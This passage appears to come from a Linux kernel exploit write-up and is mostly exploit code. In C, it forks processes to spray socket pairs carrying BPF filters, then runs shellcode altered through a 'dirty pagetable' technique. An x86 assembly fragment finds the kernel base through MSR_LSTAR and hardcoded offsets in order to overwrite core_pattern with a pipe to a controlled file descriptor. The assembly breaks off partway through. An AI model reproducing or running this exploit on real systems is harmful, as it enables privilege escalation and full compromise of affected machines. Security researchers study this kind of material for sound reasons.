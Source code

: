 ```cpp
	{
		if (fork() == 0) // use fork to bypass RLIMIT_NOFILE limit.
		{
			int fd[0x100][2];
			close(stopfd[1]);
			for (int i = 0; i < 0x100; i++)
			{
				SYSCHK(socketpair(AF_UNIX, SOCK_DGRAM, 0, fd[i]));
				SYSCHK(setsockopt(fd[i][0], SOL_SOCKET,
								  SO_ATTACH_FILTER, &prog,
								  sizeof(prog)));
			}
			write(stopfd[0], buf, 1);
            
            /*
            // wait for shellcode modified by dirty pagetable
            */
			while(*shared_mutex == 0)
				sleep(1);

            // run modified shellcode
			for (int i = 0; i < 0x100; i++)
			{
				// printf("run %d.%d!\n", k, i);
				if(check_core())
					exit(0);
				ssize_t bytes_written = write(fd[i][1], buffer, sizeof(buffer));
				ssize_t bytes_read = read(fd[i][0], buffer, sizeof(buffer));
			}
			read(stopfd[0], buf, 1);
			// exit(0);
		}
	}
	/* wait for all forks to finish spraying BPF code */
	read(stopfd[1], buf, 0x50);

	return 0;
}
```

The shellcode used at this stage modifies the `core_pattern` configuration to:  

```
"|/proc/%P/fd/666 %P"
```

This change ensures that the kernel writes core dumps to the specified file descriptor, enabling further exploitation or exfiltration through controlled file descriptors.
```asm
mov rcx, 0xc0000082
rdmsr 

shl rdx, 32
or rdx, rax
sub rdx, 0x1400080 ; entry_SYSCALL_64
mov r12, rdx

mov rdi, r12
add rdi, 0x29bace0 ; core_pattern

mov rsi, 0x12340000 ; src userland buffer

mov rdx, 0x20 ; len

mov rax, r12
```